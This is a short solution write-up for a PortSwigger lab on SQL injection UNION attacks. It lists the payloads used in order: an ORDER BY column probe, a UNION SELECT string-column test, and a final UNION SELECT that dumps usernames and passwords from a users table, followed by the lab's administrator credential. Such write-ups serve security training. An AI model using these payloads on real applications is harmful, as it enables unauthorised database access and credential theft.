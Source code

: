 # Lab: SQL injection UNION attack, retrieving data from other tables

## Lab's description

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called users, with columns called username and password.

**End goal:** Retrieves all usernames and passwords, and log in as the `administrator` user.

## Solution

First, I choose any type of category.

Now, I try to modify the link to determine the number of columns required.

After I try, I can see `' ORDER BY 3--` display error. That means it has 2 columns.

Now I determine which column is string data: `' UNION SELECT NULL,'a'--`

Now exploit the payload: `' UNION SELECT NULL, username || '~' || password FROM users--`

It will show you the username and password like this: `administrator~c33dy80c5hdjybojdbzf`, use it to log in and we done.

**Source:** [Lab: SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-using-a-sql-injection-union-attack-to-retrieve-interesting-data/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)
